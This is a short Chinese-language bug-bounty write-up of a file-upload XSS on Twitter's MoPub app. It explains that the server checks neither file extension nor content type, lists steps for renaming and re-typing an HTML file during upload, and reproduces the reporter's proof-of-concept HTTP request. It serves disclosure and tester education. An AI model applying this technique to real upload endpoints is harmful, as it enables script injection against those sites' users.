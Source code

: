 # 漏洞散记
##  Twitter xss
> 漏洞非常简单，并没有多少技术需求，但是却也是蛮经典的，结合自身，这种情况确实出现过很多次了，所以写出来，可以在平时测试的时候注意一下

> 漏洞价值:1120$

## 漏洞过程

一个**File upload xss**

作者确定这个漏洞的关键点有两个：

1. server不会验证**extension**
2. server不会验证上传的type是否是**jpg/jpeg**

## 利用过程

1. 将一个写入XSS的html文件先改成jpg后缀
2. 上传抓包，然后更改成**.html**的后缀，然后在把**content-type**改成**text.html**（这点值得注意，否则好像会出错）
3. 再次打开上传的link就会弹出XSS

看一下作者的POC:
```
POST /inventory/app_icon/upload/ HTTP/1.0
Host: app.mopub.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: /
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-CSRFToken: YZ8hbuu1vB9p5s1ni2vPZ5kMrhMqeDo5
X-Requested-With: XMLHttpRequest
Referer: https://app.mopub.com/inventory/app/97142808ce5d4ace895480a3ffe7d631/
Content-Length: 389
Content-Type: multipart/form-data; boundary=---------------------------1714461176134095862036612614
Cookie: [Cookie values]
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

-----------------------------1714461176134095862036612614
Content-Disposition: form-data; name="image_upload"; filename="xssfileuploadcopy.html"
Content-Type: text/html

HTML contetn
-----------------------------1714461176134095862036612614--
```

# 结语
确实不是很有难度的事情，但是个人经验，很多次会遇到这种漏洞，所以可是关注一下，将其加入到自己的测试流程中去
